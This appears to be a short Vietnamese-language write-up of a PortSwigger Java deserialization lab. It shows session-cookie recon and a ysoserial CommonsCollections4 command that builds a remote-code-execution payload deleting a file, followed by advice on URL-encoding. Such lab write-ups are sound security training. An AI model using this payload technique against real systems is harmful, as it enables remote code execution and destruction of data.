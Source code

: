 
# Target Goal: 

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

# Recon: 

Sau khi login, ta sẽ có session được cấp: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/97c9aa2d-8baa-446c-9705-cd9fa67a36c1)

Thử đem đi dcode sang b64 ta nhận thấy đây là java serialize:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/b688681f-a34f-4d5d-b693-0a4b9e81e4e5)

Chúng ta cần sử dụng tool của bên thứ 3 .Và công cụ phổ biến để exploit Apache Common là `ysoserial`. `ysoserial` là 1 tool thường được dùng đẻ khai thác lỗ hổng liên quan đến Java deserialization tạo ra các object thông qua gadget chain ứng với thư viện có sẵn.
```
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > cookie.txt

// Chỉ gói 4 mới hoạt động đúng gói của nó sâu khi sử dụng các gói khác
// -w 0 đảm bảo rằng chuỗi base64 được xuất ra trên một dòng duy nhất, không có ngắt dòng
```

Thay value apply lại web, và nó xuất hiện lỗi này:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3988bea9-137e-4140-87cf-c66e78df27a9)

Lý do là vì có các byte chưa được xử lí đúng, chưa chọn đúng gói và encode URL:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/c3ea67f8-7ca4-4fa6-8bbf-209fd74aff58)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/72d569ee-83b6-45be-9792-ebaa5c28e23a)
